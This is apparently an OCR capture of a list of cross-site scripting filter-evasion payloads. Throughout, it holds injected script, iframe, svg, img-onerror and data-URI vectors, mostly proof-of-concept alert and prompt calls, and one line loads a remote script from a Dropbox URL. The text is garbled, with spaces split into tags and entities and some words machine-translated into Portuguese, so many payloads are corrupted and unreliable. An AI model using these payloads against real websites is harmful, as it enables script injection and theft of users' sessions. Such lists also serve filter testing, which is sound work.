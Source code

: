 <svg> <script xlink: href = data & colon;, window.open ('https://www.google.com/')> </ script

<svg> <script x: href = 'https: //dl.dropbox.com/u/13018058/js.js' {Opera}

<meta http-equiv = "atualizar" content = "0; url = javascript: confirm (1)">
<iframe src = javascript & colon; alert & lpar; document & period; localização & rpar;>

<form> <a href="javascript:\u0061lert(1)"> X

</script> <img / *% 00 / src = "worksinchrome & colon; prompt & # x28; 1 ​​& # x29;" /% 00 * / onerror = 'eval (src)'>
<img / & # 09; & # 10; & # 11; src = `~` onerror = prompt (1)>
<form> <iframe & # 09; & # 10; & # 11; src = "javascript & # 58; alert (1)" & # 11; & # 10; & # 09 ;;>

<a href="data:application/x-x509-user-cert;
base64
,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="	
> X </ a

http://www.google <script .com> alert (document.location) </ script

<a & # 32; href & # 61; & # 91; & # 00; & # 93; "& # 00; onmouseover = prompt & # 40; 1 & # 41; & # 47; & # 47;"> XYZ </ a

<img / src = @ & # 32; & # 13; onerror = prompt ('& # 49;')

<style / onload = prompt & # 40; '& # 88; & # 83; & # 83;' & # 41;

<script ^ __ ^> alert (String.fromCharCode (49)) </ script ^ __ ^

</ style & # 32;> <script & # 32; : - (> / ** / alert (document.location) / ** / </ script & # 32; :-(

& # 00; </form> <input type & # 61; "date" onfocus = "alert (1)">

<form> <textarea & # 13; onkeyup = '\ u0061 \ u006C \ u0065 \ u0072 \ u0074 & # x28; 1 ​​& # x29;'>

<script / *** /> ​​/ *** / confirm ('\ uFF41 \ uFF4C \ uFF45 \ uFF52 \ uFF54 \ u1455 \ uFF11 \ u1450') / *** / </ script / *** /

<iframe srcdoc = '& lt; body onload = prompt & lpar; 1 & rpar; & gt;'>

<a href="javascript:void(0)" onmouseover=
javascript:alert(1)
> X </a>

<script ~~~> alerta (0% 0) </ script ~~~>

<style / onload = & lt;! - & # 09; & gt; & # 10; alert & # 10; & lpar; 1 & rpar;>

</// style ///> <span% 2F onmousemove = 'alert & lpar; 1 & rpar;'> SPAN

<img / src = 'http: //i.imgur.com/P8mL8.jpg' onmouseover = prompt de & Tab; (1)

& # 34; & # 62; <svg> <style> {-o-link-source & colon; '<body / onload = confirm (1)>'

& # 13; <pisca / & # 13; onmouseover = pr & # x6F; mp & # 116; (1)> OnMouseOver {Firefox e Opera}

<marquee onstart = 'javascript: alert & # x28; 1 ​​& # x29;'> ^ __ ^
